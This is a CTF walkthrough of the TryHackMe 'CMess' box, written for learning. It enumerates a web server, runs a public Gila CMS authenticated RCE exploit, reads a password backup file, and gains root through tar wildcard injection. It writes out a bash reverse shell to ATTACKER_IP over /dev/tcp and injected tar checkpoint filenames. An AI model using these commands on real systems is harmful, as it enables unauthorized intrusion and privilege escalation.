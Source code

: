 ```yaml
---
layout: post
title:  "CMess Writeup"
date:   2024-05-23 13:15:45 -0400
categories: tryhackme medium
tags: writeup tryhackme medium CTF
---
```

## Introduction
This is a medium challenge box on
[TryHackMe](https://tryhackme.com/r/room/cmess){:target="_blank"}{:rel="noopener noreferrer"}
> This is what a hint will look like!

When the IP is available, we'll need to add it to
`/etc/hosts`

```
VICTIM_IP cmess.thm
```

## Enumeration
### Ports
Let's start off with a port scan to see what services 
are available

```bash
rustscan -a VICTIM_IP -- -A -oA scan -sC
```

![scan1](/images/cmess/cmess-scan1.png)

![scan2](/images/cmess/cmess-scan2.png)

We have two ports open
- 22: SSH
- 80: HTTP

### Subdirectories
It's usually a good idea to have run some enumeration in the background while you're working on something else. Maybe we can find some interesting web pages which will be useful later

```bash
dirsearch -w /usr/share/wordlists/dirb/big.txt -r --threads=100 --url=http://cmess.thm --output=dirsearch.txt
```

![dirsearch](/images/cmess/cmess-dirsearch.png)
There are a lot of directories available but for now let's take note of
`/admin`. It leads to a login page but we don't have any credentials yet.

### Subdomains
Since we're given a domain from the jump let's also check for subdomains

```bash
wfuzz -c --hc 302 -t 50 -u http://cmess.thm -H 'Host: FUZZ.cmess.thm' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw 290
```

![subdomains](/images/cmess/cmess-subdomains.png)

Add this new subdomain to `/etc/hosts`  to make it accessible. It should look like this

```
VICTIM_IP cmess.thm dev.cmess.thm
```

Now we can visit the page

![dev](/images/cmess/cmess-dev.png)

It's a development message log and we've found credentials for andre!

### Dashboard
At this point we have a login page and credentials so let's see what else we can find by logging in

![login](/images/cmess/cmess-login.png)

![admin](/images/cmess/cmess-admin.png)

We have a version number! Let's see if there's something we can do with this

## Initial Foothold
> Are there any public exploits for Gila CMS version 1.10.9?

```bash
searchsploit gila 1.10.9
```

![searchsploit](/images/cmess/cmess-searchsploit.png)

Remote code execution that requires authentication! We fulfill those requirements so let's pull the code and inspect the source

```bash
searchsploit -m 51569
cat 51569.py
```

![exploit-source](/images/cmess/cmess-exploit-source.png)

So this code uploads a php web shell and then executes a bash reverse shell! We'll need to setup a listener to accept the reverse shell. We can do that with

```bash
nc -lvnp 4444
```

Now we can run the exploit with andre's credentials

```bash
python3 51569.py
```

![rce](/images/cmess/cmess-rce.png)

![www-data](/images/cmess/cmess-www-data.png)

We have a shell! Since python3 is on the box let's upgrade and stabilize our shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# ctrl+z
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

## Horizontal Escalation
> Are there any interesting credential or backup files?

We can search the filesystem for backup files which use the
`bak` extension using this command

```bash
find / -type f -name "*bak*" -ls 2>/dev/null
```

![bak](/images/cmess/cmess-bak.png)

Running 
[linpeas](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md){:target="_blank"}{:rel="noopener noreferrer"}
also finds this file in the `Backup Files` and
`Password Files`sections, but it can easily be overlooked if you aren't reading carefully

![linpeas-bak](/images/cmess/cmess-linpeas-bak.png)

![linpeas-pw](/images/cmess/cmess-linpeas-pw.png)

Let's read the file and escalate our privileges

```bash
cat /opt/.password.bak
```

![user-flag](/images/cmess/cmess-user-flag.png)

## Root
> Are there any processes run as root on a schedule?

By checking `/etc/crontab` we can see a list of scheduled commands and what privileges they run with

```bash
cat /etc/crontab
```

![crontab](/images/cmess/cmess-crontab.png)

So [every 2 minutes](https://crontab.cronhub.io){:target="_blank"}{:rel="noopener noreferrer"}
root will backup everything in andre's backup directory using a tar wildcard.

> Can wildcards be abused when run with tar?

They can! This is known as 
[wildcard injection](https://www.exploit-db.com/papers/33930){:target="_blank"}{:rel="noopener noreferrer"}. 
By using a filename with the same format as a command flag, we can enable that command option! By only using command flags, we can 
[execute arbitrary commands using tar](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar){:target="_blank"}{:rel="noopener noreferrer"}.
Let's set up some files which will give us a reverse shell as root

```bash
cd /home/andre/backup
echo 'asdf' > '--checkpoint=1'
echo 'asdf' > '--checkpoint-action=exec=sh shell.sh'
echo "bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" > shell.sh
```

Now we wait with a listener on our machine

```bash
nc -lvnp 4444
```

![root](/images/cmess/cmess-root.png)

## Recap
Subdomain and subdirectory enumeration revealed an admin login page and credentials to use. A public exploit for GilaCMS v1.10.9 leads to an initial foothold into the system. A hidden password backup file escalates our privileges to another user. A cron job is vulnerable to tar wildcard injection which gives us root.
